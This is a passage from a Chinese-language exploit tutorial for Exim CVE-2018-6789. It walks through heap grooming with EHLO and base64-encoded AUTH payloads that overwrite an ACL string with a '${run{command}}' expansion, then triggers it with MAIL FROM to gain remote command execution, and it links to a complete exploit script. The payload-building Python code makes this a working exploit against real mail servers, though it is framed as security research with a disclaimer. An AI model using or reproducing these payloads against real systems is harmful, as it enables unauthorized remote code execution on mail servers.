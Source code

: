 由于地址随机化，acl所在的storeblock高位字节未知（在docker环境下，低12bit为0x480不变），但是原始的next指针指向的storeblock与要修改的storeblock高位字节相同，仅低位3字节不同，因此可以采用局部overwrite，只需要爆破12bit即可。

8. 发送ehlo消息释放所有的storeblock

```
ehlo(s, "released")
```

此时unsorted bin表中存在多个空闲块，如下图所示，其中框出来的空闲块就是包含acl的storeblock

![attach.png](https://i.loli.net/2018/05/12/5af5cd9525b77.png)

9. 覆盖acl字符串

```python
payload4 = 'a'*0x18 + p64(0xb1) + 't'*(0xb0-0x10) + p64(0xb0) + p64(0x1f40)
payload4 += 't'*(0x1f80-len(payload4))
auth(s, b64encode(payload4)+'ee')
payload5 = "a"*0x78 + "${run{" + command + "}}\x00"
auth(s, b64encode(payload5)+"ee")
```

发送第一个auth消息之后，unsorted bin表如下图所示

![attach2.png](https://i.loli.net/2018/05/12/5af5cd9525b76.png)

接着再分配合适的空间时，就可以获取目标storeblock所在的堆块，覆盖其中的acl字符串

![heap_9.png](https://i.loli.net/2018/05/12/5af5cee2e888e.png)

10. 触发acl检查

```
s.sendline("MAIL FROM: <test@163.com>")
```

![exec.png](https://i.loli.net/2018/05/12/5af5cd953d208.png)

![execute.png](https://i.loli.net/2018/05/12/5af5cd953d3c5.png)

至此就可以远程执行命令，完整的漏洞利用脚本见[exp.py](https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/exp.py) （https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/exp.py），效果如下：

![final.png](https://i.loli.net/2018/05/12/5af5cee2c4e0d.png)

**注**：该漏洞利用脚本仅用于交流学习与安全研究，请勿用于非法用途。

### 参考：

- https://www.exim.org/exim-html-current/doc/html/spec_html/ch-access_control_lists.html
- https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/
- https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/
